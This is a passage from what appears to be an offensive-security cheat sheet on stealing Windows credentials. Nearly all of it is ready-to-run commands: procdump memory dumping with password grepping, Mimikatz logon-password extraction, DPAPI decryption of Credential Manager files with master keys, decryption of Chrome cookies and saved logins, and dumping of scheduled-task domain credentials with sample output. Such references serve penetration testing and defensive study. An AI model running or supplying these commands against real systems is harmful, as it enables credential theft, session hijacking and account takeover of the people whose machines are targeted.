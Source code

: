 - Extract passwords manually
    
    ```ps1
    procdump64.exe -ma 988 -accepteula C:\svchost.dmp
    strings -el svchost* | grep Password123 -C3
    ```
    
- Extract passwords using Mimikatz
    
    ```ps1
    privilege::debug
    ts::logonpasswords
    ```
    

## Credential Manager & DPAPI

```powershell
# check the folder to find credentials
dir C:\Users\<username>\AppData\Local\Microsoft\Credentials\*

# check the file with mimikatz
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0

# find master key
$ mimikatz !sekurlsa::dpapi

# use master key
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0 /masterkey:95664450d90eb2ce9a8b1933f823b90510b61374180ed5063043273940f50e728fe7871169c87a0bba5e0c470d91d21016311727bce2eff9c97445d444b6a17b
```

### Chrome Cookies & Credential

```powershell
# Saved Cookies
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect
dpapi::chrome /in:"C:\Users\kbell\AppData\Local\Google\Chrome\User Data\Default\Cookies" /masterkey:9a6f199e3d2e698ce78fdeeefadc85c527c43b4e3c5518c54e95718842829b12912567ca0713c4bd0cf74743c81c1d32bbf10020c9d72d58c99e731814e4155b

# Saved Credential in Chrome
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```

### Task Scheduled credentials

```powershell
mimikatz(commandline) # vault::cred /patch
TargetName : Domain:batch=TaskScheduler:Task:{CF3ABC3E-4B17-ABCD-0003-A1BA192CDD0B} / <NULL>
UserName   : DOMAIN\user
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00004004
Credential : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
Attributes : 0
```
